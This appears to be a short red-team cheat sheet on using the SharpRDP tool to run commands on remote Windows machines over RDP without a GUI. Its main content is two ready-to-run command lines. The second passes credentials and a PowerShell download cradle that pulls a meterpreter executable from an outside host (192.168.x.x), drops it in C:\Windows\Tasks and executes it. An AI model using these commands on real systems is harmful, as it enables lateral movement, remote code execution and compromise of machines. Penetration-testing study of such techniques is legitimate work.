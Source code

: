 ### SharpRDP - RDP as a Console

Although RDP is most often associated with the mstsc GUI client, it can also be used as a command-line tool.

SharpRDP is a C# application that uses the non-scriptable interfaces exposed by mstscax.dll (terminal services library), to perform authentication in the same way as mstsc.exe.

Once authentication is performed, SharpRDP allows us to execute code through SendKeys. In this manner, no GUI access is required and setting up a revers tunnel is unnecessary.

Exemple : execute notepad

```bash
C:\Tools> SharpRDP.exe computername=dev01 command=notepad username=dev1\v0lk3n password=superpassword1
```

Example : execute powershell download cradle, pulls the meterpreter executable and subsequently executes it with stacked commands

```bash
C:\Tools> SharpRDP.exe computername=dev01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.x.x/met.exe','C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=dev1\v0lk3n password=superpassword1
```
